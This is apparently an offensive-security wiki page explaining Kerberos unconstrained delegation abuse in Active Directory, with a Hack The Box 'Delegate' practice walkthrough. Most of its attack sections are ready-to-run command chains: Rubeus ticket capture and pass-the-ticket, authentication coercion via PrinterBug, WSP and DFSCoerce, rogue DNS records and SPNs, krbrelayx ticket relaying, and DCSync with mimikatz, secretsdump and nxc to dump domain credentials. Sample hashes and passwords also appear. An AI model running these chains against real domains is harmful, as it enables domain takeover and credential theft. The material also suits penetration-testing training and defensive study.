

---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
  tags:
    visible: true
---

# Unconstrained

## Overview


A service account cannot modify its own `TRUSTED_FOR_DELEGATION` UAC flag.


Unconstrained delegation grants a service unrestricted ability to **impersonate a user to any service in the domain**.

<div align="left"><figure><figcaption></figcaption></figure></div>

When a user authenticates to a service configured for unconstrained delegation, the KDC includes the user’s TGT inside the TGS response. The service decrypts the TGS, extracts the TGT, and stores it in LSASS.&#x20;

With this TGT available, the service can now request additional service tickets on behalf of the user for any service in the domain, allowing the server to fully impersonate the user over the network.

<figure><figcaption><p>The uncostrained delegation process (image adapted from <a href="https://thalpius.com/2024/05/31/microsoft-defender-for-identity-recommended-actions-unsecure-kerberos-delegation/">here</a>).</p></figcaption></figure>

This behavior introduces a critical security risk: if a host configured for unconstrained delegation is compromised, any user who authenticates to it exposes their TGT to the attacker. **The host becomes a passive collection point for TGTs**. The attacker can wait for privileged users to connect naturally or actively force a connection from a privileged account (e.g. `DC01$`) to the compromised host.

## Pre-requisites

If we have compromised a user with `SeEnableDelegation` privilege (typically restricted to EAs and DAs), then we can leverage unconstrained delegation as follows:

* [x] The compromised object must be a service account, i.e., have an SPN.
  * If MAQ > 0 → create a machine which, typically, automatically gets assigned an SPN.
  * If MAQ = 0 → compromise an existing machine or assign an SPN to a user (e.g. `GenericWrite` or `WriteSPN`).
* [x] We must be able to create DNS records on the domain. Note that there is a critical DNS zone setting called [Dynamic updates](https://learn.microsoft.com/en-us/windows-server/networking/dns/dynamic-update) which by default is set to `Secure only`. This applies a restriction in which a user can only create a DNS record for a machine that they have `Write` access to.

## Passive TGT Collection


```powershell
# Launch Rubeus in monitor mode on the compromised host
.\Rubeus.exe monitor /interval:5 /nowrap
.\Rubeus.exe monitor /targetuser:DC01$ /interval:5 /nowrap

# Inject ticket into memory
.\Rubeus.exe asktgs /ticket:doI...0FM /service:cifs/dc01.mollysec.local /ptt

# If the above does not work, get renew TGT and then request a TGS again
.\Rubeus.exe renew /ticket:doI...0FM /ptt

# Use CIFS
dir \\dc01.mollysec.local\c$
net view \\\dc01.mollysec.local
```


## Coercive Connection


When leveraging WSP or DFS, use the netBIOS name, not the FQDN as with RPRN.


Various Windows services make coercive authentication possible:

<table><thead><tr><th width="252.333251953125">Protocol</th><th width="160.33331298828125">Service</th><th width="219.0001220703125">Default on Server OS</th><th width="110.6666259765625">Ports</th></tr></thead><tbody><tr><td><a href="https://github.com/leechristensen/SpoolSample">MS-RPRN</a></td><td>Print Spooler</td><td>Yes</td><td>445</td></tr><tr><td><a href="https://github.com/slemire/WSPCoerce">MS-WSP</a></td><td>Windows Search</td><td>No (Default on Client OS)</td><td>445</td></tr><tr><td><a href="https://github.com/jfma7/DFSCoerce-exe">MS-DFSNM</a> (MDI detects this)</td><td>DFS Namespaces</td><td>No</td><td>445</td></tr></tbody></table>

For more information on coercive connections, see [here](../ntlm-relay.md#coercive-authentication).


```powershell
# Set unconstrained delegation
Get-ADComputer -Identity 'badPc' | Set-ADComputer -TrustedForDelegation $true

# Enumerate hosts configured with UD
Get-DomainComputer -Unconstrained # PowerView
Get-ADComputer -Filter {TrustedForDelegation -eq $True} # AD module
Get-ADUser -Filter {TrustedForDelegation -eq $True} # AD module

# Launch Rubeus in monitor mode on the UD-configured host
.\Rubeus.exe monitor /interval:5 /nowrap

# Coerce a connection
.\MS-RPRN.exe \\dc01.mollysec.local \\web01.mollysec.local # PrintSpooler (\\target-host \\compromised-host) (Error Code 1722 is expected)
.\WSPCoerce dc01 web01 # Windows Search
.\DFSCoerce-andrea.exe -t dc01 -l web01 # DFS

# Inject the compromised TGT
.\Rubeus.exe ptt /ticket:doI...A==

# If TGT from DC -> DCSync
.\mimikatz.exe "lsadump::dcsync /user:administrator" "exit"
.\SafetyKatz.exe "lsadump::evasive-dcsync /user:mollysec\krbtgt" "exit"

# Get TGT as the target user
.\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:administrator /ptt

# If TGT from non-DC host -> S4U2Self (TGS as any user)
.\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.mollysec.local /ptt /ticket:doI...
```


For the same attack from a Linux host, see [Practice](unconstrained.md#practice).

## Users

User accounts can also be configured for UD. If such an account is compromised, the attacker must also have the ability to modify its SPN set, which typically requires `GenericWrite` (or equivalent) permissions over the account object. The general process is outlined below:

1. **Create a malicious DNS record** using a valid domain account. This record resolves to an attacker-controlled host and effectively introduces a rogue service endpoint within the AD environment.
2. **Register a suitable SPN** (for example, `CIFS/<dns_record>`) on the compromised user account. This enables the account to act as a Kerberos service capable of receiving delegated tickets.
3. **Trigger Kerberos authentication to the rogue service.** When a privileged user authenticates to the attacker-controlled endpoint, their TGT is forwarded to the UD account. The attacker can then extract and reuse this TGT to impersonate the victim and escalate privileges within the domain.

This attack can be performed using the [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) tools ([`dementor.py`](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) is an alternative for triggering the Printer Bug). In the example below:

* `poppy` is a user account configured with UD
* `molly` has `GenericWrite` over `poppy`


```bash
# Enumerate user with TRUSTED_FOR_DELEGATION flag (PowerView)
> Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
...
samaccountname        : poppy
serviceprincipalname  : MSSQL_svc_dev/mollysec.local:1443
useraccountcontrol    : NORMAL_ACCOUNT, TRUSTED_FOR_DELEGATION

# Add a fake DNS record pointing to the attacker host (-d -> attacker host, add -> DC)
dnstool -u mollysec.local\\molly -p Pass123 -r badDns.mollysec.local -d 10.10.10.2 --action add 10.10.10.5

# Verify that it was created
nslookup badDns.marvel.local 10.10.10.5

# Add an SPN to the target user (samname = user, if unspecified -> hostname)
addspn -u mollysec.local\\molly -p Pass123 --target-type samname -t poppy -s CIFS/badDns.mollysec.local 10.10.10.5 

# Provide the NT hash of the compromised user (poppy) so it can decrypt the TGS
sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58

# Coerce DC01$ to connect to the rogue DNS
printerbug mollysec.local/molly:Pass123@10.10.10.5 badDns.mollysec.local
dementor -u molly -p Pass123 -d mollysec.local badDns.mollysec.local 10.10.10.5

# DCSync using the compromised TGT
KRB5CCNAME=DC01\\$@MOLLYSEC.LOCAL_krbtgt@MOLLYSEC.LOCAL.ccache secretsdump.py -k -no-pass dc01.mollysec.local
```


## Practice

The privilege escalation part of the [Delegate](https://www.hackthebox.com/machines/delegate) box offers some good practice for unconstrained delegation.&#x20;

After compromising `n.thompson`, we see that it is a member of the `Delegation Admins` group:

<div align="left"><figure><figcaption></figcaption></figure></div>

This gives him the `SeEnableDelegation` privilege:


```bash
$ nxc winrm dc1 -u n.thompson -p passwords -x 'whoami /priv'
...
WINRM  10.129.234.69  5985   DC1  SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
```


Now, we need to check for the pre-reqs:

* Can we create a machine account?
* Can we create a DNS record?

In this case, we can do both; the MAQ is set to the default 10 and `Authenticated Users` have `CreateChild` over the DNS zone:


```bash
# Enumerate MAQ
$ nxc ldap dc1 -u n.thompson -p passwords -M maq
...
MAQ         10.129.234.69   389    DC1              MachineAccountQuota: 10

# Enumerate DNS zones
$ dnstool -u 'delegate.vl\N.Thompson' -p $(cat passwords) -d 10.10.14.2 -a query 10.129.234.69 --print-zones-dn
...
[-] Found 2 domain DNS zones:
    DC=Delegate.vl,CN=MicrosoftDNS,DC=DomainDnsZones,DC=delegate,DC=vl

# Read ACEs over the target zone
$ dacledit.py -action read -dc-ip 10.129.234.69 -target-dn 'DC=Delegate.vl,CN=MicrosoftDNS,DC=DomainDnsZones,DC=delegate,DC=vl' delegate/n.thompson:$(cat passwords) | grep -i -A1 'createchild'
[*]     Access mask               : CreateChild (0x1)
[*]     Trustee (SID)             : Authenticated Users (S-1-5-11)
```


Create a machine account and configure it with unconstrained delegation (if curious on what the `528384` value means, see [here](../../privileges/seenabledelegation.md#unconstrained)):


```bash
# Create a machine account
nxc ldap dc1 -u n.thompson -p passwords -M add-computer -o NAME=badPc PASSWORD=Pass123

# Set the TRUSTED_FOR_DELEGATION flag over the machine account
bloodyad -u n.thompson -p $(cat passwords) -d delegate.vl -i 10.129.234.69 set object badPc$ userAccountControl -v 528384 --raw
```


Add a DNS record to the machine account which points to the attacking host:


```bash
dnstool -u delegate.vl\\N.Thompson -p $(cat passwords) -r badPc.delegate.vl -d 10.10.14.2 -a add 10.129.234.69
```


Launch the relay server and coerce authentication from the DC:


```bash
$ printerbug delegate.vl/N.Thompson:$(cat passwords)@10.129.234.69 badPc.delegate.vl

$ sudo krbrelayx -hashes :8432EC4C4F9B9CE96B73A6451A1D9DCC --interface-ip 10.10.14.2
[*] SMBD: Received connection from 10.129.234.69
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```


Leverage `DC1`'s TGT and DCSync:


```bash
KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache nxc smb 10.129.234.69 --use-kcache --ntds --user administrator
```

